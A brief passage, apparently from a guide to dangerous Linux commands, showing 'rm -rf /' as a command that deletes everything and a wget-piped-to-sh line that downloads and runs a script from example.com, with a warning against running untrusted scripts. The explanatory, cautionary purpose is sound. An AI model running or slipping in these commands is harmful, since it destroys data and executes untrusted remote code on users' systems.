 #### Deletes Everything
```
rm -rf /
```
#### Downloads and Runs a Script

```
wget http://example.com/something -O – | sh
```

The above line downloads a script from the web and sends it to sh,which executes the contents of the script. This can be dangerous if you’re not sure what the script is or if you don’t trust its source – don’t run untrusted scripts.
